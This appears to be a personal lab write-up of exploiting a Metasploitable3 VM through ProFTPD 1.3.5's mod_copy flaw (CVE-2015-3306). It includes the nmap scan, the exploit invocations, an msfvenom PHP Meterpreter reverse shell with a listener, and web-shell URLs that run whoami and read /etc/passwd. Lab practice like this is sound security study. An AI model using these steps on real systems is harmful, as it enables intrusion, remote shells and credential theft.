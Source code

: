 ```yaml
---
layout: post
title: "Metasploitable Series"
categories: ["Hands-on", "Metasploitable"]
tags: "Metasploitable Series"
---
```


# Metasploitable Series
## Issue 1

![Nmap Scan](/images/nmap-scan1.png)

The first step that was done was scan the machine using nmap -sV -A

![SVA Nmap Scan](/images/nmapSVA.png)
The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

![searchsploit](/images/searchsploitFTP.png)
since we get the version number I decided on using _searchsploit_ to locate any existing exploit

### Mode_copy remote command execution

- sudo python 49908.py 192.168.199.130  
  allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
  When running the command we were able to put a test.php in the victim!
  instead of test.php what if i uploaded a _reverse shell_ php?

### Making a backdoor php using venom

we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole

- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run

2. Creating reverse shell using msfvenom

- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306

i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:

![searchsploit](/images/ftpmcexploit.png)


![searchsploit](/images/testPHP.png)

http://192.168.199.130/backdoor.php?cmd=ls

### What we can find out

WHOAMI
http://192.168.199.130/backdoor.php?cmd=whoami _www-data_

Os Running
http://192.168.199.130/backdoor.php?cmd=uname -a _Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux_

Users in the machine
http://192.168.199.130/backdoor.php?cmd=cat%20/etc/passwd

users found

- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
